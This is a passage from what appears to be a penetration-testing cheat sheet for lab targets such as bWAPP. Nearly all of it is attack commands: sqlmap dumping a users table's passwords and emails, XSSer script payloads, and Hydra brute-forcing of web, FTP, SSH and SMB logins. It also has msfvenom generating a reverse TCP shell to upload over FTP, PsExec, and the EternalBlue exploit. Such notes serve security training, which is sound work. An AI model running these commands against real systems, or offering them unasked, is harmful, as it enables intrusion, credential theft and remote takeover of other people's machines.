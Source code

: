 #### SQLMap
- Basic: `sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title`  
- Request File: `sqlmap -r <REQUEST_FILE> -p <POST_PARAMETER>`  
- Enumeration:  
  - Databases: `sqlmap -u "<URL>" --dbs`  
  - Tables: `sqlmap -u "<URL>" -D bWAPP --tables`  
  - Columns: `sqlmap -u "<URL>" -D bWAPP -T users --columns`  
  - Dump: `sqlmap -u "<URL>" -D bWAPP -T users -C admin,password,email --dump`

#### XSSer
- Basic: `xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`  
- Auto: `xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto`  
- Payload: `xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"`  
- Authenticated: `xsser --url "http://<TARGET_IP>/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"`

#### Hydra
- Basic Auth: `hydra -L <USERS_LIST> -P <PW_LIST> <TARGET_IP> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"`

---

## PART X: TroubleMakers - Exploitation Scenarios

### Scenario 1: IIS & FTP
- Scan: `nmap -sV -sC -p21,80 <TARGET_IP>`  
- Anon FTP: `ftp <TARGET_IP>`  
- Brute-Force: `hydra -L <USER_LIST> -P <PW_LIST> <TARGET_IP> ftp`  
- Shell:  
  - Generate: `msfvenom -p windows/shell/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f asp > shell.aspx`  
  - Upload: `ftp <TARGET_IP>` → `put shell.aspx`  
  - Listener: `use multi/handler` → `set payload windows/shell/reverse_tcp`

### Scenario 2: OpenSSH
- Scan: `nmap -sV -sC -p 22 <TARGET_IP>`  
- Exploit Search: `searchsploit OpenSSH 7.1`  
- Brute-Force: `hydra -l <USER> -P <PW_LIST> <TARGET_IP> ssh`  
- Login: `ssh <USER>@<TARGET_IP>`

### Scenario 3: SMB
- Scan: `nmap -sV -sC -p 445 <TARGET_IP>`  
- Brute-Force: `hydra -l <USER> -P <PW_LIST> <TARGET_IP> smb`  
- Enum: `smbclient -L <TARGET_IP> -U <USER>`  
- PsExec: `python3 psexec.py <USER>@<TARGET_IP>`  
- EternalBlue: `use exploit/windows/smb/ms17_010_eternalblue`
